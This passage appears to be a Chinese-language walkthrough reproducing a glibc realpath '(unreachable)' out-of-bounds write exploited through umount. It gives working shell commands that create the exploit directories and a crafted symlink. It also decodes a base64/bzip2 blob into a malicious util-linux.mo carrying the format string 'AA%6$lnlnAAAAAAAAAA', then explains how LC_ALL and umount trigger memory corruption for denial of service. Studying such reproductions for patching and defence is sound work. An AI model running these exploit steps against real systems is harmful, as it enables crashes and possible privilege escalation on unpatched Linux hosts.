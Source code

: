     - 步骤三 创建漏洞利用需要的目录和文件

      - ```__gconv_find_shlib/C/LC_MESSAGES```目录是setloacale寻找mo文件的相对路径
        特别注意的一点：```__gconv_find_shlib``` 在不同系统上不一样，在漏洞作者的exp中还给出了两个目录(```from_archive, _nl_load_locale_from_archive```) 
      - "(unreachable)/x" 是realpath解析符号链接的返回值对应的目录
      - util-linux.mo文件用于保存特制的libc依赖的.mo翻译文件
      - 符号链接用于触发越界写漏洞
      - util-linux.mo保存了触发DOS的特制格式化字符串"AA%6$lnlnAAAAAAAAAA"

      ```shell
      mkdir -p -- "(unreachable)/tmp" "(unreachable)/tmp/__gconv_find_shlib/C/LC_MESSAGES" "(unreachable)/x"
      ln -s ../x/../../AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/A "(unreachable)/tmp/down"
      base64 -d <<B64-EOF | bzip2 -cd > "(unreachable)/tmp/__gconv_find_shlib/C/LC_MESSAGES/util-linux.mo"
      QlpoOTFBWSZTWTOfm9IAAGX/pn6UlARGB+FeKyZnAD/n3mACAAAgAAEgAJSIqfkpspk0eUGJ6gAG
      mQeoaD1PJAamlPJGCNMTIaNGmnqMQ0AAzSwpEWpQICVUw+490ohZBgZ+s4EBAZCn/TavSQshtCiv
      iG6HOehyAp4FPt3zkpdTxNchTYITLBkXUjsgpN2QDBNX8qmbpkVgfLXKcQc1ZhVF0FxUQOtnbGlL
      5NhRmORwmQF1Dw3Yu1mds6tGAmnLwWwc2KRKGl5hcLuSKcKEgZz83pA=
      B64-EOF
      
      root@debian:/tmp# tree
      .
      └── (unreachable)
          ├── tmp
          │   ├── down -> ../x/../../AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/A
          │   └── __gconv_find_shlib
          │       └── C
          │           └── LC_MESSAGES
          │               └── util-linux.mo
          └── x
      
      
      root@debian:/tmp# strings "(unreachable)/tmp/__gconv_find_shlib/C/LC_MESSAGES/util-linux.mo"
      %s: not mounted
      Language: en
      MIME-Version: 1.0
      Content-Type: text/plain; charset=UTF-8
      Content-Transfer-Encoding: 8bit
      AA%6$lnlnAAAAAAAAAA
      
      ```

    - 步骤四 通过umount触发DOS

      - LC_ALL环境变量会使setlocale函数去加载翻译文件

      - umount会先尝试卸载down目录，这个特制的符号链接会触发realpath漏洞造成越界写，将堆内存中的```"/usr/lib/locale/C.utf8/LC_CTYPE"```路径字符串中LC_CTYPE覆盖为AAAAAA(略...)/A

      - 当realpath将down解析为(unreachable)/x后，umount会调用warnx函数打印警告信息，此时会加载特制的util-linux.mo文件，```"AA%6$lnlnAAAAAAAAAA"```替换掉warnx函数的第一个参数```"%s: not mounted"```
